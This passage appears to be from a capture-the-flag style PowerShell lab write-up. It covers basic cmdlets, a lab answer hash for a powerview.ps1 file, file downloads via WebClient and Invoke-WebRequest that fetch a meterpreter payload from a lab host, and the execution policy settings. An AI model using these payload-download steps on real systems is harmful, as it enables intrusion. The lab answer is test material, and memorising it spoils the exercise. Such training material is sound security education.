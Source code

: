 `(command) | Export-Csv` - Exports the Previously piped command into a .CSV file that may be easier to read.

`Get-Content` - Shows the contents of a file. Similar to the `cat` command on linux.

`Copy-Item` - Copies and item

`Move-Item` - Moves and item

`Get-FileHash` - Obtains file hash of specified file

### Question 1: What is the MD5 hash value of the file on Walter's desktop?

`501570FFBA7FACE69D61DA1A0843E89A` - `Get-FileHash -Algorithm MD5 .\Desktop\powerview.ps1` will give us the&#x20;

![](<../.gitbook/assets/image (599).png>)

## Task 3

### Downloading files

There are multiple ways to download files from a server using PowerShell. _**One**_ of the quickest ways is using `WebClient` and `DownloadFile`.

* `(New-Object System.Net.WebClient)DownloadFile('URL/File', 'Output-File')`
  * Example: `(New-Object System.Net.WebClient)DownloadFile('http://10.0.2.8/meterpreter-64.ps1', 'meterpreter.ps1')`

This will connect to the  host 10.0.2.8 and download the`meterpreter-64.ps1` file. The file is then saved as “`meterpreter.ps1`”

Another method is by using `Invoke-WebRequest`

* `Invoke-WebRequest "URL/File" -OutFile "File"`
  * `Invoke-WebRequest "http://10.0.2.8/meterpreter-64.ps1" -Outfile "meterpreter.ps1"`

### Execution Policies

Once we have the file downloaded, we can run the file, but we may run into an `ExecutionPolicy` issue. Microsoft has stated _ExecutionPolicy_ is NOT a security feature. but it functions as an added safety measure and can be bypassed by the user.

The current state of the ExecutionPolicy configuration can be seen using “`Get-ExecutionPolicy -list`”

Execution policies can have seven different values:

* `AllSigned` - Scripts can run but require all scripts to be signed by a trusted publisher.
* `Bypass` - All scripts can run, and no warnings or prompts will be displayed.
* `Default` - This refers to “restricted” for Windows clients and “RemoteSigned” for Windows servers.
* `RemoteSigned` - Scripts can run, and this does not require local scripts to be digitally signed.
* `Restricted` - The default configuration for Windows clients. Allows individual commands to run, does not allow scripts.
* `Undefined` - This shows that no specific execution policy was set. This means default execution policies will be enforced.
* `Unrestricted` - Most scripts will run.
